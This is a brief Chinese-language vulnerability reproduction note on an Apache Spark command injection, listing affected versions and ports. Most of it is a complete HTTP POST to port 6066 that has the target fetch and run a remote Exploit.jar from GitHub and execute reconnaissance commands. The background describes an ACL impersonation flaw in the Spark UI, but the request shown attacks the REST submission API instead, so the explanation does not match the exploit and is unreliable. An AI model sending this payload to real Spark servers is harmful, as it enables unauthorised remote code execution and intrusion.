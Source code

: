 ## 0x00 漏洞背景

        之前渗透时候发现了这个界面复现一下。
        
        Apache Spark存在一处命令注入，该漏洞是由于Apache Spark UI提供了通过配置选项spark.acls.enable启用ACL的可能性，
        HttpSecurityFilter中的代码路径可以通过提供任意用户名来允许某人执行模拟，恶意用户凭借访问权限检查函数最终将基于其输入构建Unix shell命令并执行它。
        
        
![图片](https://user-images.githubusercontent.com/118274389/230276100-cd56142e-4427-4da9-b425-fe1711cded27.png)

## 0x01 漏洞影响范围

       versions 3.0.3
       3.1.1 -- 3.1.2
       3.2.0 -- 3.2.1
       影响端口 6066 7077 端口
       
## 0x02 漏洞复现

访问如下
       
```

POST /v1/submissions/create HTTP/1.1
Host: IP:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 683

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}

```
       
        
